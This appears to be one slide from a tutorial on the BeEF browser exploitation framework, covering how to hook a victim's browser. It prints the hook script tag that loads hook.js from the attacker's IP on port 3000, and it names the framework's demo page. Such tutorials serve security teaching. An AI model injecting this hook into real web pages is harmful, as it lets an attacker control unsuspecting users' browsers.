

Step 3: Hooking the target web browser
Once we have logged into beef hacking framework UI, we now have to create a hook from which we will be able to attack the victim. The hook script looks like this

<script src="http://<IP ADDRESS>:3000/hook.js"></script>
Where we have IP you have to replace it with your IP address from where your victim’s browser will hook back to. Beef hacking framework provides for a demo site which can be accessed via
http://127.0.0.1:3000/demos/basic.html

1/9/2023 9:50 PM
11